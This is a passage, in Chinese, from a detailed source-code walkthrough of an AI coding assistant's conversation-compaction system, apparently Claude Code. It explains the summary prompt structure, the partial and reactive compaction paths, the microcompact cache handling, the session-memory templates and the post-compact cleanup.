这种"先思考再总结"的设计借鉴了链式思考（chain-of-thought）的思想：让模型在草稿区充分推理，再产出精炼的最终摘要。草稿区是模型内部的工作区，不污染最终输出。`DETAILED_ANALYSIS_INSTRUCTION_BASE`（行 31–44，全量）与 `DETAILED_ANALYSIS_INSTRUCTION_PARTIAL`（行 46–59，部分）两个变体分别处理"整个对话"和"最近消息"两种 scope。

### 84.9 九节结构的逐节设计意图

`BASE_COMPACT_PROMPT`（行 61–143）的 9 节结构，每一节都有明确的设计意图：

**第 1 节 Primary Request and Intent**——捕获所有用户显式请求与意图。这是摘要的"北极星"，防止压缩后丢失"用户到底想要什么"。无论对话多长多复杂，原始意图是不可丢失的锚点。

**第 2 节 Key Technical Concepts**——技术概念、技术、框架。保留领域知识，让模型在压缩后仍理解讨论的技术背景（如"我们在讨论 OAuth PKCE 流程"）。

**第 3 节 Files and Code Sections**——枚举文件与代码段，要求"特别注意最近的消息，包含完整代码片段，说明每个文件读/编辑为什么重要"。代码上下文是编程助手的核心，逐字保留关键代码片段让模型在压缩后仍能引用具体代码。

**第 4 节 Errors and fixes**——错误及修复，"特别注意具体的用户反馈...尤其是用户让你用不同方式做某事时"。这一节防止压缩后重复踩坑——如果某个修复方案已经尝试过并失败，模型应记得避免重试。

**第 5 节 Problem Solving**——已解决问题与进行中的排查。保留推理链，让模型知道"已经排除了哪些可能性"。

**第 6 节 All user messages**——列出**所有**非工具结果的用户消息（"对理解用户反馈和意图变化至关重要"）。用户消息是意图的最可靠来源，逐字保留防止摘要模型的创造性改写曲解意图。这是唯一明确要求"列出所有"的节。

**第 7 节 Pending Tasks**——显式被要求的待办。防止压缩后忘记待办。

**第 8 节 Current Work**——摘要请求前**正在**做什么，"特别注意用户和助手的最近消息，包含文件名和代码片段"。为续接提供锚点——模型压缩后需要知道"我从哪里继续"。

**第 9 节 Optional Next Step**——直接对齐最近工作的下一步，但有关键约束（行 76–77）："确保这一步直接对齐用户最近的显式请求...如果上一个任务已结束，只列下一步...不要在没有先与用户确认的情况下开始切题请求或已经完成的旧请求。如果有下一步，包含最近对话的直接引用，确切展示你在做什么任务、停在哪里。这应是逐字的"。

第 9 节的约束是防止"压缩后跑偏"的关键——模型可能基于摘要中的旧请求自行启动新任务，逐字引用约束确保下一步严格对齐当前工作。

### 84.10 三种 compact 变体的场景差异

`BASE_COMPACT_PROMPT`（全量）、`PARTIAL_COMPACT_PROMPT`（`direction: 'from'`）、`PARTIAL_COMPACT_UP_TO_PROMPT`（`direction: 'up_to'`）三种变体应对不同压缩场景：

**全量压缩**：摘要整个对话，无保留消息。最常见场景。

**from 部分压缩**：摘要 pivotIndex **之后**的消息，保留之前（prompt cache 保留）。任务措辞改为"创建对话**最近部分**的详细摘要——早先保留的上下文保持完整，**不需要**摘要"。9 节与 BASE 相同但措辞全部限定为"recent messages"。这种压缩保留了早期的 prompt cache 前缀，只摘要新增部分，经济高效。

**up_to 部分压缩**：摘要 pivotIndex **之前**的消息，保留之后（cache 失效，summary 在前）。注释（行 206–207）解释：模型只见被摘要的前缀（cache hit），摘要将**先于**保留的最近消息，故第 8 节改名 Work Completed（"这一部分结束时完成了什么"），第 9 节改名 Context for Continuing Work（"总结理解并继续后续工作所需的任何上下文、决策或状态"）。这种压缩用于"保留最近工作上下文，摘要早期背景"的场景。

### 84.11 getCompactUserSummaryMessage 的延续消息

`getCompactUserSummaryMessage`（行 337–374）构建注入到压缩后上下文的"延续消息"。基础体声明"本会话从前一个耗尽上下文的会话继续，下面的摘要覆盖对话的较早部分"。可选追加：

- `transcriptPath`：提示"如果需要压缩前的具体细节（确切代码片段、错误消息、生成的内容），读完整 transcript"
- `recentMessagesPreserved`："最近消息逐字保留"
- `suppressFollowUpQuestions`：追加"从离开处继续对话，不要问用户任何进一步问题。直接恢复——不要确认摘要、不要回顾发生了什么、不要用'我将继续'之类开头。像中断从未发生一样接上最后一个任务"

`suppressFollowUpQuestions` 在 auto compact 后尤其重要——自动压缩对用户是透明的，用户不应被模型的"我已恢复上下文"打断。proactive/KAIROS 模式还有额外的 autonomous 模式提示——"这不是首次唤醒...继续你的工作循环...不要问候用户或问要做什么"。

### 84.12 附加摘要指令的注入

提示词末尾（行 131–142）允许"附加摘要指令"：上下文中可能携带 `## Compact Instructions` / `# Summary instructions` 形式的额外聚焦指令（如"聚焦测试输出和代码变更，逐字包含文件读取"）。这通过 `executePreCompactHooks` 的 `mergeHookInstructions`（行 374–381）合并用户指令（在前）与 hook 指令（追加），让 PreCompact hook 能动态影响摘要的聚焦点。

`getCompactPrompt(customInstructions?)`（行 293–303）组装：`NO_TOOLS_PREAMBLE + BASE_COMPACT_PROMPT`，若 customInstructions 非空追加 `Additional Instructions:` 段，最后拼 `NO_TOOLS_TRAILER`。三段式结构确保约束首尾呼应、主体结构完整、附加指令可扩展。


## 第 85 章 compact 全流程的 21 步详解

`compactConversation`（`compact.ts:387-763`）是 compact 的核心函数。第 56 章概述了其流程，这里逐 step 深入剖析：

**Step 1 空消息守卫**（行 397–399）：消息不足则抛 `ERROR_MESSAGE_NOT_ENOUGH_MESSAGES`。

**Step 2 preCompactTokenCount**（行 401）：`tokenCountWithEstimation(messages)` 记录压缩前 token，用于遥测与 boundary marker。

**Step 3 PreCompact hooks**（行 406–424）：`executePreCompactHooks({trigger: isAutoCompact?'auto':'manual', customInstructions})`。`mergeHookInstructions`（行 374–381）将用户指令（在前）与 hook 指令（追加）合并——用户指令优先，hook 补充。记录 `userDisplayMessage`。

**Step 4 cache-sharing 开关**（行 435–438）：`getFeatureValue_CACHED_MAY_BE_STALE('tengu_compact_cache_prefix', true)`，3P 默认 true。注释（行 432–434）揭示：fork 路径复用主对话缓存能省大量 token；false 路径 98% cache miss，日均 ~38B token 浪费，集中在冷 GB 的 CCR/GHA/SDK 环境。这一开关是性能与成本的关键权衡。

**Step 5 构造 prompt 与 summaryRequest**（行 440–443）：`getCompactPrompt(customInstructions)` 包成 user message。

**Step 6 PTL 重试循环**（行 449–491）：调 `streamCompactSummary`；若 `summary.startsWith(PROMPT_TOO_LONG_ERROR_MESSAGE)` → `ptlAttempts++`，调 `truncateHeadForPTLRetry`（见第 93.1 节）；`ptlAttempts <= MAX_PTL_RETRIES`（3）时截断并重试；超限或无文本 → `tengu_compact_failed` 事件并抛错。

**Step 7 summary 校验**（行 493–515）：空 → `no_summary`；`startsWithApiErrorPrefix` → `api_error`。

**Step 8 readFileState 保存**（行 518）：`preCompactReadFileState = cacheToObject(context.readFileState)`；行 521 清空 `readFileState` 与 `loadedNestedMemoryPaths`。注释（行 524–529）**故意不重置** `sentSkillNames`：重新注入 ~4K token 的 skill_listing 是纯 cache_creation，重置会浪费。

**Step 9 并行生成附件**（行 532–539）：`Promise.all([createPostCompactFileAttachments(...), createAsyncAgentAttachmentsIfNeeded(context)])`。

**Step 10 附件组装**（行 541–585）：plan attachment → planMode attachment → skill attachment → `getDeferredToolsDeltaAttachment`（全量重公告，diff against `[]`）→ `getAgentListingDeltaAttachment` → `getMcpInstructionsDeltaAttachment`。这些 delta 附件确保压缩后工具/代理/MCP 状态完整重播。

**Step 11 SessionStart hooks**（行 587–594）：`processSessionStartHooks('compact', {model})`，恢复 CLAUDE.md 等上下文。

**Step 12 boundary marker 构造**（行 598–611）：`createCompactBoundaryMessage(isAutoCompact?'auto':'manual', preCompactTokenCount, messages.at(-1)?.uuid)`；携带 `extractDiscoveredToolNames(messages)` 到 `compactMetadata.preCompactDiscoveredTools`（行 606–611，post-compact schema filter 需要它继续发送已加载的 deferred tool schemas）。

**Step 13 summaryMessages**（行 614–624）：单个 `createUserMessage({content: getCompactUserSummaryMessage(...), isCompactSummary: true, isVisibleInTranscriptOnly: true})`。

**Step 14 token 计数**（行 626–642）：`compactionCallTotalTokens`（compact API 调用总用量，非结果上下文大小）；`truePostCompactTokenCount = roughTokenCountEstimationForMessages([boundaryMarker, ...summaryMessages, ...postCompactFileAttachments, ...hookMessages])`。

**Step 15 遥测**（行 650–695）：`tengu_compact` 事件含 preCompact/postCompact/truePostCompact token、autoCompactThreshold、`willRetriggerNextTurn`、isRecompactionInChain、turnsSincePreviousCompact、compaction 各类 token、promptCacheSharingEnabled，以及 `analyzeContext(messages)` 的明细。

**Step 16 缓存断裂检测复位**（行 698–703）：`notifyCompaction(querySource, agentId)`；`markPostCompaction()`。

**Step 17 reAppendSessionMetadata**（行 711）：保证自定义标题/tag 留在 readLiteMetadata 的 16KB 尾窗内。

**Step 18 sessionTranscript**（行 715–717，KAIROS）：`writeSessionTranscriptSegment(messages)` fire-and-forget。

**Step 19 PostCompact hooks**（行 719–729）：`executePostCompactHooks({trigger, compactSummary: summary})`。

**Step 20 返回 CompactionResult**（行 738–748）。

**Step 21 错误处理**（行 749–762）：仅手动 /compact 调 `addErrorNotificationIfNeeded`；`finally` 复位 streamMode / SDKStatus / `compact_end`。

### 85.1 PTL 重试与 API round 分组

`truncateHeadForPTLRetry`（行 243–291）是 CC-1180 的最后逃生阀：compact 请求自身命中 prompt-too-long 时丢弃最老 API-round 组。逻辑：

- 先剥离上轮重试遗留的 `PTL_RETRY_MARKER`（行 250–255），否则它自成 group 0 让 20% fallback 失效
- `groupMessagesByApiRound(input)`（行 257）；`groups.length < 2` 返回 null
- `getPromptTooLongTokenGap(ptlResponse)` 解析 token gap（行 260）：可解析时累加 group token 直至覆盖 gap；不可解析时 `Math.max(1, floor(groups.length*0.2))`
- `dropCount` 上限 `groups.length - 1`（至少留一组可摘要）
- 切片后若首条是 assistant（API 拒绝 assistant 开头），前置 `createUserMessage({content: PTL_RETRY_MARKER, isMeta: true})`（行 284–289）

"API round"是一对 user+assistant 消息（一次 API 调用的往返）。按 round 分组而非按消息分组，确保了不拆散 tool_use/tool_result 配对——丢掉一个 round 是丢掉完整的用户输入+模型响应+工具结果，保持 API 一致性。

### 85.2 streamCompactSummary 的双路径

`streamCompactSummary`（行 1136–1396）有两条路径：

**A. Forked-agent cache-sharing 路径**（行 1179–1248）：`runForkedAgent` 复用主线程缓存。关键注释（行 1181–1187）：fork 复用主线程缓存靠发送相同 cache-key 参数（system/tools/model/messages prefix/thinking config），**绝不能设 maxOutputTokens**，否则 `claude.ts` 里 `Math.min(budget, maxOutputTokens-1)` 会制造 thinking config 不匹配使缓存失效。成功 → `tengu_compact_cache_sharing_success`（含 cacheHitRate）；无文本 → fallback；异常 → fallback。

**B. 常规流式路径**（行 1250–1392，fallback）：`queryModelWithStreaming`，systemPrompt=`'You are a helpful AI assistant tasked with summarizing conversations.'`，`thinkingConfig:{type:'disabled'}`，`maxOutputTokensOverride: Math.min(COMPACT_MAX_OUTPUT_TOKENS, getMaxOutputTokensForModel(model))`。流式消费 `content_block_start`/`text_delta`。重试间 `sleep(getRetryDelay(attempt))`；耗尽抛 `ERROR_MESSAGE_INCOMPLETE_RESPONSE`。

keep-alive（行 1167–1176）：compact 调用 5–10s 期间，每 30s `sendSessionActivitySignal()` + `setSDKStatus('compacting')`，防止远端 WebSocket 空闲超时。

### 85.3 附件重建函数群

- `createPostCompactFileAttachments`（行 1415–1464）：按时间倒序选最多 5 个最近读过的文件，排除 plan 文件与 claude.md 类文件，并排除已存在于 `preservedMessages` 中的 Read 结果（`collectReadToolFilePaths`，跳过 `FILE_UNCHANGED_STUB` 的 dedup stub）。重读（`maxTokens: 5000`），按 50K 总预算累计过滤。
- `createPlanAttachmentIfNeeded`（行 1470–1486）：若 plan 非空，返回 plan_file_reference attachment。
- `createSkillAttachmentIfNeeded`（行 1494–1534）：已调用 skill 按 invokedAt 倒序，每 skill 截断到 5000 token，总预算 25000。
- `createPlanModeAttachmentIfNeeded`（行 1542–1560）：plan 模式下返回 plan_mode attachment 使压缩后仍处于 plan 模式。
- `createAsyncAgentAttachmentsIfNeeded`（行 1568–1599）：为后台运行或已结束未取回的 local_agent 生成 task_status attachment。


第 93 章的 Step 8 提到"故意不重置 sentSkillNames"，这一细节值得深入。

### 85.4 sentSkillNames 的重注入成本

注释（行 524-529）**故意不重置** `sentSkillNames`：重新注入 ~4K token 的 skill_listing 是纯 cache_creation。如果重置，compact 后需要重新注入 skill listing，这 4K token 是 cache_creation（首次缓存），成本高。保留 sentSkillNames 避免了重注入，复用已有缓存。

### 85.5 selective 重置的设计

compact 重置 readFileState 和 loadedNestedMemoryPaths，但保留 sentSkillNames——这是"selective 重置"。重置那些"compact 后会重新加载"的状态（readFileState 会被 createPostCompactFileAttachments 重新填充），保留那些"重注入成本高"的状态（sentSkillNames）。

这种选择性体现了对缓存成本的精细理解——不是简单地"compact 后重置一切"，而是区分哪些状态重置后会被低成本重建，哪些保留更经济。


### 85.6 isRecompactionInChain

`recompactionInfo` 含 `isRecompactionInChain`（`tracking.compacted`）——标识这次 compact 是否是"compact 后又触发 compact"的链式场景。链式 compact 意味着上次 compact 不足，需要更深压缩。

### 85.7 willRetriggerNextTurn

遥测 `willRetriggerNextTurn`（`truePostCompactTokenCount >= recompactionInfo.autoCompactThreshold`）——预测这次 compact 后下一轮是否会再次触发 autocompact。如果 truePostCompactTokenCount 仍超阈值，下一轮会再次 compact，形成压缩链。

### 85.8 turnsSincePreviousCompact

`turnsSincePreviousCompact` 记录距上次 compact 的轮次数。如果 compact 后几轮就再次触发，说明对话增长过快或 compact 阈值设置过低——这是调优信号。

这些遥测字段让 Anthropic 能监控 compact 的有效性，优化阈值与策略。


## 第 86 章 microcompact 双模式与 API 原生压缩

第 19 章概述了 microcompact，但其双模式的精确触发条件值得深入。microcompact 是压缩管道中最轻量但最频繁的步骤，其正确性直接影响 prompt cache 命中率。

### 86.1 cached microcompact 的 API 层裁剪

cached microcompact（`microCompact.ts:305-399`）的核心差异（注释行 296–304）：**不修改本地消息内容**（`cache_reference`/`cache_edits` 在 API 层添加）；用 count-based 触发/保留阈值；无磁盘持久化。

流程：`collectCompactableToolIds` 收集可压缩 tool_use id（FileRead/Shell*/Grep/Glob/WebSearch/WebFetch/FileEdit/FileWrite）→ 按用户消息分组注册 → `mod.getToolResultsToDelete(state)` → 有删除时 `mod.createCacheEditsBlock` → `pendingCacheEdits = cacheEdits`。

这是最高效的工具结果裁剪——本地消息历史仍保留完整 tool_result（便于 transcript 回放），但发给 API 的请求中旧 tool_result 通过 `cache_edits` 块在 API 层删除。缓存前缀（更早的内容）不受影响，命中率保持。

### 86.2 time-based microcompact 的缓存冷判定

time-based microcompact（行 422–530）的触发条件是"缓存已冷"：`evaluateTimeBasedTrigger` 计算 `gapMinutes = (Date.now() - lastAssistant.timestamp)/60_000`，若 `gapMinutes >= gapThresholdMinutes`（默认 60，对齐服务器 1h cache TTL）则触发。

`gapThresholdMinutes:60` 对齐服务器 1h cache TTL 是关键设计——只有在缓存已过期（前缀已不可复用）时才直接清除旧 tool_result 内容（替换为 `[Old tool result content cleared]`）。既然缓存已过期，前缀已无价值，直接 content-clear 既省 token 又不影响缓存。这是对"何时可以安全清除"的精确判断：有缓存时用 cache_edits（保前缀），无缓存时直接 clear（无前缀可保）。

### 86.3 两种模式的互斥与短路

`microcompactMessages`（行 253–293）入口：`maybeTimeBasedMicrocompact` 返回非 null 则直接返回（time-based 短路）。这意味着 time-based 优先于 cached——因为 time-based 触发说明缓存已冷，此时 cached microcompact 的 cache_edits 无意义（没有缓存可保护）。

`isMainThreadSource`（行 249–251）：`!querySource || querySource.startsWith('repl_main_thread')`，prefix-match 是为修复非默认 output style 用户被误排除的 latent bug。只有主线程查询才做 microcompact，子代理查询不做（子代理上下文短，不需要）。

### 86.4 resetMicrocompactState 的清理必要性

time-based microcompact 触发后调用 `resetMicrocompactState()`（行 517）。注释解释：刚清空了一些 cached-MC 注册的工具且改了 prompt 内容致缓存失效，必须重置避免下轮 cache_edit 不存在的工具。如果不重置，cached MC 的状态会指向已被 time-based 清空的工具，下轮 cache_edit 会尝试编辑已不存在的工具结果，引发错误。

这种"两种模式切换时必须重置共享状态"是状态机设计的要点——cached MC 和 time-based MC 共享模块级状态，切换时必须清理，避免状态污染。


### 86.5 API 原生 context management

`apiMicrocompact.ts` 是 API 原生的 context management 策略。这是较新的 API 特性——让服务端帮忙管理上下文（如自动清除旧 thinking 块），减少客户端复杂度。

### 86.6 getAPIContextManagement 的决策

`getAPIContextManagement({hasThinking, isRedactThinkingActive, clearAllThinking: thinkingClearLatched})` 决定 context management 策略。基于是否 thinking、是否 redact thinking、是否 clearAllThinking（1h 空闲 latch），决定让 API 如何管理上下文。

### 86.7 客户端与服务端的协作

apiMicrocompact 体现了"客户端与服务端协作"——客户端决定策略（如 clearAllThinking），服务端执行（清除旧 thinking 块）。这比纯客户端管理高效——服务端在请求处理时直接清除，无需客户端构造 cache_edits。


## 第 87 章 响应式压缩与 partialCompact

第 19 章提到了 reactiveCompact 和 contextCollapse，但它们的**响应式压缩**哲学值得深入。这两个模块在本仓库中不存在（feature-gated 动态 require，外部构建经 DCE 剔除），但其接口从 `query.ts` 调用点可完整还原。

### 87.1 响应式 vs 预防式压缩

Claude Code 的压缩有两类：

- **预防式**（autocompact）：在发送请求前预测 token 超限，主动压缩
- **响应式**（reactiveCompact）：流式接收时 API 返回 prompt-too-long 错误（withheld），被动压缩

`reactiveCompact` 的触发时机（`query.ts:1119-1166`）：流式循环截获到 prompt-too-long 或 media-size 错误（withheld，不立即暴露）后，作为响应式压缩。先试 contextCollapse 排空（cheap，保粒度），再试 reactive compact（全量摘要）。

响应式压缩是"最后防线"——预防式 autocompact 应该已经避免了超限，但如果 token 估算不准或对话突然增长，API 仍可能返回 prompt-too-long。此时 reactiveCompact 挽救。

### 87.2 contextCollapse 的读时投影

contextCollapse（`feature('CONTEXT_COLLAPSE')`）的核心思想（query.ts 行 428–447 注释）：collapse 是**读时投影**而非修改 REPL 历史。commit log 持久化，`projectView()` 每次入口重放；summary 消息存于 collapse store 而非 REPL 数组，使折叠跨 turn 持久。

这是一种"视图层压缩"——消息历史本身不变，但发送给 API 的请求中，某些消息段被折叠成摘要。这比直接修改历史更安全——如果折叠有误，可以撤销；历史完整性保留。

### 87.3 与 autocompact 的互斥

contextCollapse 与 autocompact 互斥（autoCompact.ts 行 201–223）：collapse 开启时 `shouldAutoCompact` 返回 false（90%/93%/95% 三阈值冲突，autocompact 会抢赢 collapse 破坏粒度）。reactiveCompact 仍作 413 fallback。

这种互斥设计避免了两种压缩机制的冲突——如果 autocompact 和 contextCollapse 同时运行，它们的阈值竞争会导致压缩过于频繁或粒度混乱。通过互斥，每种场景只有一种压缩机制主导。

### 87.4 snip 的尾部保护

snip（`feature('HISTORY_SNIP')`）在 microcompact 之前运行，二者非互斥。`snipCompactIfNeeded` 产出 `tokensFreed` 与 `boundaryMessage`。`snipTokensFreed` 透传给 autocompact 阈值检查——因为 `tokenCountWithEstimation` 读 protected-tail assistant 的 usage（snip 后不变）看不到释放，需要显式传递。

snip 是"尾部保护"——它截断历史的最旧部分，但通过 boundaryMessage 标记截断点，让 UI 知道历史被裁剪。它比 microcompact 更激进（丢弃整个旧消息而非只清空 tool_result），但比 autocompact 更轻量（不调用 LLM 摘要）。

```mermaid
flowchart TD
    MSGS[消息历史] --> PIPELINE[压缩管道]
    PIPELINE --> SNIP[1. snip 尾部保护<br/>丢弃最旧消息 标记boundary]
    SNIP --> MC[2. microcompact<br/>cached cache_edits 或 time-based clear]
    MC --> CC[3. contextCollapse<br/>读时投影 折叠段]
    CC --> AC[4. autocompact<br/>LLM摘要 全量或session-memory]
    AC --> SEND[发送请求]
    SEND -.API返回PTL.-> RC[响应式 reactiveCompact]
    RC --> CCD[先试 contextCollapse 排空]
    CCD --> RCF[再试 reactive compact 全量摘要]
    RCF --> RETRY[重试请求]
    style RC fill:#fee
    style CCD fill:#fee
    style RCF fill:#fee
```

### 87.5 direction: from vs up_to

`partialCompactConversation`（compact.ts:772-1106）围绕选定消息索引的部分压缩：

- **`from`**（行 768）：摘要 pivotIndex **之后**的消息，保留之前（prompt cache 保留）
- **`up_to`**（行 769）：摘要 pivotIndex **之前**的消息，保留之后（cache 失效，summary 在前）

两种方向应对不同场景——`from` 保留早期上下文（cache 命中），摘要近期；`up_to` 摘要早期背景，保留近期工作上下文。

### 87.6 from 的 prefix-preserving

`from` 的 messagesToKeep 是 `slice(0, pivotIndex)`——保留之前，这是 prompt cache 前缀。摘要只针对新消息，cache 命中，经济高效。anchorUuid 是 `boundaryMarker.uuid`（prefix-preserving）。

### 87.7 up_to 的 suffix-preserving

`up_to` 的 messagesToKeep 是 `slice(pivotIndex)`——保留之后，摘要在前。cache 失效（摘要改变了前缀），但保留了近期工作上下文。anchorUuid 是 `summaryMessages.at(-1)?.uuid`（suffix-preserving）。

### 87.8 过滤旧 boundary/summary

`up_to` 下 messagesToKeep **过滤旧 boundary/summary**（注释行 786-789：`up_to` 下 summary_B 在 kept 之前，旧 boundary_A 会赢得反向扫描丢弃 summary_B）。这是磁盘重链的细节——保留消息中的旧 boundary 会干扰 loader 的 tail→head 遍历，过滤它确保重链正确。

### 87.9 annotateBoundaryWithPreservedSegment 的元数据

`annotateBoundaryWithPreservedSegment`（行 349-367）为保留消息在 boundary 的 `compactMetadata.preservedSegment` 写入 `{headUuid, anchorUuid, tailUuid}`。loader 用此元数据修补 head→anchor 与 anchor 的其他子节点→tail，实现磁盘上的消息重链。


## 第 88 章 Session Memory 压缩的模板工程

第 56 章概述了 session memory 压缩，但其**模板工程**值得深入。`src/services/SessionMemory/prompts.ts` 定义了 session memory 的结构与维护规则。

### 88.1 十节模板设计

`DEFAULT_SESSION_MEMORY_TEMPLATE`（行 11–41）是 10 节 markdown 模板，每节标题下跟斜体描述行（模板指令，必须原样保留）：

1. `# Session Title` — 5-10 词描述性标题
2. `# Current State` — 当前在做什么、待办、下一步
3. `# Task specification` — 用户要求构建什么、设计决策
4. `# Files and Functions` — 重要文件及其内容与相关性
5. `# Workflow` — 常跑的 bash 命令与顺序
6. `# Errors & Corrections` — 错误与修复、用户纠正、失败方法
7. `# Codebase and System Documentation` — 系统组件与协作方式
8. `# Learnings` — 什么有效/无效、避免什么
9. `# Key results` — 用户要求的精确输出
10. `# Worklog` — 每步尝试的极简摘要

这一模板与 compact 的九节摘要结构呼应但更细——它是一个持续维护的"活文档"，而非一次性的摘要。`# Current State` 是 compact 后连续性的关键（"Always update Current State"），它让每次压缩后模型知道当前状态。

### 88.2 结构保留铁律

`getDefaultUpdatePrompt`（行 43–81）的更新指令有严格的结构保留铁律：

- **绝不修改/删除/新增节标题**（`#` 行）
- **绝不修改斜体描述行**（`_..._`）
- 只更新描述行**下方**的实际内容

这一铁律确保 session memory 的结构稳定——如果模型随意改标题或描述，后续的 `analyzeSectionSizes`（按节解析 token）会失败，模板的导航价值丧失。结构不变是内容可变的前提。

### 88.3 节大小监控与压缩提醒

`buildSessionMemoryUpdatePrompt`（行 226–247）：`analyzeSectionSizes(currentNotes)` 解析每节 token；`generateSectionReminders`（行 164–196）：超 `MAX_TOTAL_SESSION_MEMORY_TOKENS=12000` 时追加 CRITICAL condense 指令；列出超 `MAX_SECTION_LENGTH=2000` 的节并按 token 降序。

这是 session memory 的自我调节机制——当某个节膨胀超过 2000 token，系统提醒模型压缩它；当总量超过 12000，强制 condense。这防止了 session memory 无限增长，保持其在压缩时的有效性（session memory 太大反而无法作为压缩摘要）。

### 88.4 calculateMessagesToKeepIndex 的下限保证

`calculateMessagesToKeepIndex`（sessionMemoryCompact.ts:324-397）：从 `lastSummarizedMessageId` 之后开始向后扩展保留消息，满足 `minTokens = 10_000` + `minTextBlockMessages = 5`，上限 `maxTokens = 40_000`。floor 在最近 compact boundary（行 370–371，`findLastIndex(isCompactBoundaryMessage)`+1）：因 preserved-segment 链在 boundary 有磁盘不连续，loader 的 tail→head 遍历会绕过内层保留消息。

两个下限保证（minTokens + minTextBlockMessages）确保保留的消息足够模型继续工作——不能只保留几条消息（上下文太少），也不能保留太少 token（无法理解当前工作）。

### 88.5 adjustIndexToPreserveAPIInvariants 的配对修复

`adjustIndexToPreserveAPIInvariants`（行 232–314）修复 streaming 产生的"同 message.id 不同 uuid 的分块消息"在切片后破坏 API 不变量的问题。两步：

**Step 1 — tool_use/tool_result 配对**（行 243–286）：收集 kept 范围所有 tool_result id 与已有 tool_use id，找出 orphan（tool_result 无对应 tool_use），向前扫描找到含这些 tool_use 的 assistant，调整 startIndex 纳入。

**Step 2 — thinking 块同 message.id 合并**（行 288–311）：收集 kept 范围 assistant 的 message.id 集合，向前扫描同 message.id 但不在 kept 范围的 assistant（可能含 thinking 块），纳入 kept 以便 `normalizeMessagesForAPI` 合并。

这一函数处理了流式输出导致的"一条逻辑消息被切成多条物理消息"的复杂性——同 message.id 的 thinking 块和 text 块可能在不同 assistant 消息中，切片时必须整体保留，否则 API 会因 thinking 块缺少配对的 text 块而报错。


### 88.6 API round 的概念

`groupMessagesByApiRound`（grouping.ts）把消息按 API round 分组——一对 user+assistant 消息（一次 API 调用的往返）是一个 round。这是 compact 的 PTL 重试的基础单位。

### 88.7 按 round 丢弃的完整性

PTL 重试按 round 丢弃最旧组——丢掉一个 round 是丢掉完整的用户输入+模型响应+工具结果，保持 API 一致性。相比按消息丢弃（可能拆散 tool_use/tool_result 配对），按 round 丢弃更安全。

### 88.8 assistant 开头的补合成

丢组后若以 assistant 开头则补合成 user marker（PTL_RETRY_MARKER）。API 要求消息以 user 开头交替——如果丢弃后第一个消息是 assistant，补一个 user marker 满足交替要求。


## 第 89 章 compact 的辅助机制与清理恢复

### 89.1 processSessionStartHooks('compact')

compact 后执行 `processSessionStartHooks('compact', {model})`，恢复 CLAUDE.md 等上下文。compact 替换了消息历史，但 CLAUDE.md 等指令需要重新注入——SessionStart hooks 触发重新加载。

### 89.2 trigger: compact 的区分

SessionStart hooks 的 trigger 区分 'startup'（启动）/ 'compact'（压缩后）/ 'resume'（恢复）。这让钩子能区分"为什么 SessionStart 触发"——compact 后的 SessionStart 可能不需要完整初始化（如不重新检测环境），只需恢复上下文。


### 89.3 preCompactDiscoveredTools

`extractDiscoveredToolNames(messages)` 到 `compactMetadata.preCompactDiscoveredTools`（行 606-611）。post-compact schema filter 需要它继续发送已加载的 deferred tool schemas——即使 compact 后，之前通过 ToolSearch 发现的工具 schema 应继续发送，避免模型重新发现。

### 89.4 preservedSegment 的磁盘重链

`preservedSegment`（`{headUuid, anchorUuid, tailUuid}`）记录保留消息的边界，loader 用此元数据在磁盘上重链消息。这是"磁盘上的消息重链"——compact 后保留的消息在磁盘 transcript 中可能不连续（中间被摘要替换），preservedSegment 让 loader 知道如何跳过摘要连接保留消息。


### 89.5 runPostCompactCleanup 的缓存清理

`runPostCompactCleanup(querySource)` 清理 compact 后的缓存状态——如重置 contextCollapse（`resetContextCollapse`，仅 main-thread compact 时重置，subagent 共享模块级状态）。

### 89.6 仅 main-thread 的 contextCollapse 重置

仅 main-thread compact 时重置 contextCollapse——subagent 共享模块级状态，重置会影响主线程。这是"共享状态的谨慎操作"——subagent 与主线程共享 contextCollapse 模块级状态，subagent compact 不应重置主线程的 collapse 状态。

### 89.7 setLastSummarizedMessageId(undefined)

compact 后 `setLastSummarizedMessageId(undefined)`——REPL 会 prune 旧消息，旧 UUID 不再存在。这告诉系统"之前的 summary 边界已失效"，后续基于新的 compact boundary 工作。


### 89.8 markPostCompaction 的缓存断裂标记

`markPostCompaction()` 标记 compact 发生，用于缓存断裂检测。compact 替换了消息历史，prompt cache 前缀失效，markPostCompaction 让系统知道"发生了 compact，缓存可能断裂"。

### 89.9 notifyCompaction 的误报抑制

`notifyCompaction(querySource, agentId)` 防止 prompt-cache-break 误报。compact 后缓存必然断裂，但这是预期的（非异常），notifyCompaction 告知缓存监控系统"这次断裂是 compact 导致的，不是问题"。

### 89.10 getUserContext.cache.clear 的失效

`getUserContext.cache.clear()` 让用户上下文缓存失效——compact 后 CLAUDE.md 可能变化（如 SessionStart hooks 重新加载），getUserContext 需重新读取。这是"compact 后状态失效"的一部分——所有可能受 compact 影响的缓存都需失效。


### 89.11 suppressCompactWarning 的误报警抑制

`suppressCompactWarning()` 抑制 compact 警告。当 microcompact 或 autocompact 主动触发压缩时，系统不应再显示"上下文接近上限"的警告——因为已在处理。suppressCompactWarning 让警告系统知道"已压缩，无需再警告"。

### 89.12 compactWarningState 的状态管理

`compactWarningState.ts` 管理警告抑制状态。它记录"是否已抑制警告"，避免重复抑制或误报警。这是一个小型状态机，确保警告在适当时候显示、适当时候抑制。

### 89.13 compactWarningHook 的触发

`compactWarningHook.ts` 是触发警告的 hook。当上下文接近上限但还未触发 autocompact 时，警告 hook 提示用户"考虑 /compact"。这让用户有主动压缩的机会，而非被动等 autocompact。


### 89.14 analyzeContextUsage 的内容构成分解

`analyzeContextUsage`（`src/utils/analyzeContext.ts:918`）计算上下文内容构成（tools/MCP/附件等 token 分解），供 /context 可视化与 compact 遥测。这让开发者和用户都能看到"上下文被什么占了"——工具定义、MCP 指令、附件、消息历史各占多少 token。

### 89.15 compact 遥测的明细

`tengu_compact` 遥测事件含 `analyzeContext(messages)` 的明细——不仅记录压缩前后的总 token，还记录各类内容的 token 分布。这让 Anthropic 能分析"哪类内容最占上下文"，优化压缩策略（如优先压缩占比大的类别）。

### 89.16 /context 命令的可视化

`/context` 命令用 `analyzeContextUsage` 可视化上下文构成。用户可以看到"工具占 30%、消息占 50%、附件占 20%"，理解上下文压力来源。这是透明性设计——让用户理解系统状态，而非黑盒。这种透明性不仅帮助用户决策（如手动 /compact），也让 Anthropic 通过遥测持续优化上下文管理策略，形成"可观测—可优化"的闭环。至此，从启动入口到 UI 渲染的全部子系统、从架构总览到深度原理剖析的完整技术文档已经成型。


## 第 90 章 记忆系统的召回相关性与写入互斥

